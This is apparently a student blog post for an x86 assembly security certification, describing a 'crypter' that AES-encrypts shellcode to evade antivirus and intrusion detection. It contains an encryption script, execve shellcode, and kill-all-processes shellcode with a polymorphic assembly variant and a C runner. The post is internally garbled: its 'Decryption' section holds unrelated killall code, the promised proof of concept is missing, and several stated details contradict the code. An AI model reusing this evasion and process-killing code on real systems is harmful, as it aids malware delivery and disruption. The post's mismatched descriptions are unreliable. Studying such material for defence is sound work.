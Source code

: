 ```yaml
---
title:  "SLAE x86 Assignment 7: Custom Crypter"
header:
  teaser: "/assets/images/slae32.png"
  teaser_home_page: true
#categories:
#  - exploit dev
classes: wide
#tags:
#  - exploit dev
#  - slae
---
```


### Custom Crypter
------

* Create a custom crypter
* Use any encryption schema
* Use any programming language

#### Concept 
-----

A crypter is defined as a tool that has the ability to encrypt, obfuscate, and manipulate malicious code making it undetectable to common AV and IDS systems. 

Similar to the custom Encoder created in an earlier assignment, the concept is developed further with the use of an encryption scheme, leading to a higher success rate of evasion by decrypting the malicious code at run-time and executing on the target host.

The AES (Advanced Encryption Standard) cipher  algorithm also known as Rijndael, will be used to illustrate the concept of a custom Encoder:

* Symmetric-key algorithm (same key used to encrypt and decrypt the data)
* 3 different key sizes - 128/192/256 bits
* 128-bit block sizes (data is divided into 4x4 arrays each containing 16 bytes)
* High-speed performance and low RAM (memory) requirement when encrypting/decrypting 

![AES](/assets/images/AES.jpg) 

3 steps used to demonstrate the Crypter process:

* Encryption
* Decryption
* POC

#### Encryption
--------

The execve-stack shellcode from the course material will be used as a reference for the shellcode, which spawns a <code class="language-plaintext highlighter-rouge">/bin/sh</code> shell on the local host:

```bash
"\x31\xc0\x50\x68\x2f\x2f\x6c\x73\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

A python script will be used as a Crypter wrapper to implement the AES encryption/decryption, referenced from Code Koala [http://www.codekoala.com/posts/aes-encryption-python-using-pycrypto] [encryption-codekoala].

Note in this instance a static 128-bit key <code class="language-plaintext highlighter-rouge">DisShudBSecretEncryption</code> is hardcoded into the script for the sake of the POC to illustrate the concept, best practice is to randomly generate a key:

```python
#!/usr/bin/python

# Filename: AES_encryption.py
# Author: h3ll0clar1c3
# Purpose: Wrapper script to generate encrypted shellcode from the original shellcode
# Usage: python AES_encryption.py 

from Crypto.Cipher import AES
import sys
import os
import base64

def aes128(shc):

#block size = 16 byte arrays
 BLOCK_SIZE = 16 
 PADDING = '{'
 pad = lambda s: s + (BLOCK_SIZE - len(s) % BLOCK_SIZE) * PADDING
 EncodeAES = lambda c, s: base64.b64encode(c.encrypt(pad(s)))

#static encryption/decryption key - must be 16/24/32 bytes long
 secret = 'DisShudBSecretEncryption' 
 cipher = AES.new(secret)
 encoded = EncodeAES(cipher, shc)
 print 'Encrypted shellcode using AES 128-bit key + Base64 encoded:\n\n', encoded

#execve-stack shellcode to spawn /bin/sh shell
shellcode = """
\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x6c\\x73\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x89\\xe2\\x53\x89\\xe1\\xb0\\x0b\\xcd\\x80
"""
Encryption = aes128 (shellcode)
```

As a POC, the AES encryption wrapper script is executed resulting in the original shellcode being encrypted and base-64 encoded:

```bash
osboxes@osboxes:~/Downloads/SLAE$ python AES_encryption.py 
Encrypted shellcode using AES 128-bit key + Base64 encoded:

JORa9JYDlDQi0SwuPPwAbqJZydd7ID1G+aUeYRJbEqUygnmo4zi+D0H4o2Dc/FJRJSUNfcu9zM33bg8NcB95qQhhTJ3xKvEiXnY7fLPOt3M6fesL0nrQFrwgUTl8dDr9L2W3vrdYl0Ps9ByF5OwqaQ==
osboxes@osboxes:~/Downloads/SLAE$ 
```

#### Decryption
--------------

The <code class="language-plaintext highlighter-rouge">killall</code> command on a Linux based system will literally terminate all running processes that are currently active on the target host’s machine.

Referenced from Shell-Storm [http://shell-storm.org/shellcode/files/shellcode-212.php] [killall-shellstorm]:

```c
/* By Kris Katterjohn 11/13/2006
 *
 * 11 byte shellcode to kill all processes for Linux/x86
 *
 *
 *
 * section .text
 *
 *      global _start
 *
 * _start:
 *
 * ; kill(-1, SIGKILL)
 *
 *      push byte 37
 *      pop eax
 *      push byte -1
 *      pop ebx
 *      push byte 9
 *      pop ecx
 *      int 0x80
 */

main()
{
       char shellcode[] = "\x6a\x25\x58\x6a\xff\x5b\x6a\x09\x59\xcd\x80";

       (*(void (*)()) shellcode)();
}
```

The polymorphic (modified) version of the original shellcode is scripted in Assembly:

```nasm 
; Filename: killall_poly.nasm
; Author: h3ll0clar1c3
; Purpose: Terminates processes running on the local host
; Compilation: ./compile.sh killall_poly
; Usage: ./killall_poly
; Shellcode size: 15 bytes
; Architecture: x86

global   _start

section .text
        _start:

	sub eax, eax			; initialize register // added instruction
	mov al, 0x25			; move 0x25 into al // changed the method
	sub ebx, ebx			; initialize register // added instruction
	dec ebx				; decrement ebx // replaced push 0xffffffff
	sub ecx, ecx			; initialize register // added instruction
	mov cl, 0xf7			; move 0xf7 intocl // added instruction
	neg cl				; negates 0xf7 // added instruction
	int 0x80			; call the interrupt to execute the syscall
```

The Assembly code is compiled by assembling with Nasm, and compiled as an executable binary.

Objdump is used to extract the shellcode from the <code class="language-plaintext highlighter-rouge">killall</code> command in hex format (Null free):

```bash
osboxes@osboxes:~/Downloads/SLAE$ objdump -d ./killall_poly | grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g' 
"\x29\xc0\xb0\x25\x29\xdb\x4b\x29\xc9\xb1\xf7\xf6\xd9\xcd\x80"
```

A C program scripted with the newly generated shellcode:

```c 
/**
* Filename: killall_poly_shellcode.c
* Author: h3ll0clar1c3
* Purpose: Terminates processes running on the local host   
* Compilation: gcc -fno-stack-protector -z execstack -m32 killall_poly_shellcode.c -o killall_poly_final
* Usage: ./killall_poly_final
* Shellcode size: 15 bytes
* Architecture: x86
**/

#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x29\xc0\xb0\x25\x29\xdb\x4b\x29\xc9\xb1\xf7\xf6\xd9\xcd\x80";

int main()
{
        printf("Shellcode length: %d bytes\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```

The C program is compiled as an executable binary with stack-protection disabled, and executed resulting in a shellcode size of 15 bytes:

```bash
osboxes@osboxes:~/Downloads/SLAE$ ./killall_poly_final Connection to 192.168.0.142 closed by remote host.
Connection to 192.168.0.142 closed.
```

The polymorphic version of the shellcode is 36% larger in size compared to the original reference from Shell-Storm.

##### SLAE Disclaimer ####
---------

This blog post has been created for completing the requirements of the [SLAE certification] [slae-link].

Student ID: PA-14936

GitHub Repo: [Code][github-code]

[slae-link]: http:/securitytube-training.com/online-courses/securitytube-linux-assembly-expert
[github-code]: https://github.com/h3ll0clar1c3/SLAE/tree/master/Exam/Assignment7
